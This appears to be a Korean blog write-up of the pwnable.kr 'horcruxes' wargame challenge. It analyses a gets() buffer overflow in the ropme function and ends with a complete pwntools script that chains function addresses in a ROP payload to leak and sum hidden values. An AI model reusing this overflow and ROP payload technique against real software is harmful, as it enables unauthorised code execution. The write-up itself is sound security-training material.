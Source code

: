 ```yaml
---
layout: post
title:  "15. horcruxes"
subtitle: ""
date:   2018-11-25 18:52:13 +0900
categories: security
tags : pwnable
---
```



![1]({{"/assets/img/security/pwnable/15/1.png" | absolute_url}})

ROP 문제다

접속을 해보자

<br>

![2]({{"/assets/img/security/pwnable/15/2.png" | absolute_url}})

`9032 포트`를 통해 바이너리를 실행시킬 수 있다.

IDA로 분석을 위해 먼저 바이너리를 다운받아본다.

{% highlight bash %}
scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ./Desktop/
{% endhighlight %}

<br>

![3]({{"/assets/img/security/pwnable/15/3.png" | absolute_url}})

`main` 함수이다.


<br>
![4]({{"/assets/img/security/pwnable/15/4.png" | absolute_url}})

랜덤한 값에서 `a`, `b`, `c`, `d`, `e`, `f`, `g`의 값이 만들어지고 그 모든 값을 더한 값이 `sum`이 된다


<br>
![5]({{"/assets/img/security/pwnable/15/5.png" | absolute_url}})

`ropme` 함수이다.

사용자가 입력한 값이 `a`, `b`, `c`, `d`, `e`, `f`, `g` 중 하나에 해당할 경우 

그에 맞는 `A`, `B`, `C`, `D`, `E`, `F`, `G` 함수가 실행된다.

<br>

![6]({{"/assets/img/security/pwnable/15/6.png" | absolute_url}})

대문자 이름을 가진 각 함수는 위와 같이 생겼다.

호출되면 조건 분기문에서 검사하는 값을 출력한다.

<br>

![7]({{"/assets/img/security/pwnable/15/7.png" | absolute_url}})

결과적으로 사용자가 입력한 값이 `sum`과 일치해야 한다

따라서 사용자는 `a`, `b`, `c`, `d`, `e`, `f`, `g`의 값을 알아야 하고 

`gets` 함수에서 buffer overflow가 가능하니 ROP 기법을 이용해 `A`, `B`, `C`, `D`, `E`, `F`, `G`  함수를 호출하여 알아낼 수 있다.

<br>
![8]({{"/assets/img/security/pwnable/15/8.png" | absolute_url}})

`ropme`를 보면 먼저 `0x78`만큼의 스택 크기를 사용하는데

이부분이 `gets` 함수에 사용되는 buf 메모리 크기이다.

따라서 `0x78` 이후의 `4바이트`는 `ropme`의 return 주소일 것이다.


<br>
![9]({{"/assets/img/security/pwnable/15/9.png" | absolute_url}})

실제 buf의 시작 주소로부터 `0x78` 이후에 return 주소가 있다.

<br>
![10]({{"/assets/img/security/pwnable/15/10.png" | absolute_url}})

각 함수의 주소는 이렇고

{% highlight python %}
from pwn import *
 
id   = 'horcruxes'
host = 'pwnable.kr'
port = 2222
pw   = 'guest'
s = ssh(id, host, port=port, password=pw)
 
def send_payload(conn):
    A = p32(0x809fe4b)
    B = p32(0x809fe6a)
    C = p32(0x809fe89)
    D = p32(0x809fea8)
    E = p32(0x809fec7)
    F = p32(0x809fee6)
    G = p32(0x809ff05)
    ropme = p32(0x809fffc)
    payload = "A" * 120 + A + B + C + D + E + F + G + ropme
    conn.sendline(payload)
 
def get_exp(conn):
    conn.recvuntil("EXP +")
    return conn.recvuntil(")")[:-1]
 
def exploit():
    conn = s.connect_remote('localhost', 9032)
    conn.recvuntil(':')
    conn.sendline("1")
    conn.recvuntil(":")
    send_payload(conn)
    exp = 0
    for i in range(7):
        exp += int(get_exp(conn))
 
    conn.recvuntil(":")
    conn.sendline("1")
    conn.recvuntil(":")
    conn.sendline(str(exp))
 
    conn.interactive()
 
exploit()

{% endhighlight %}


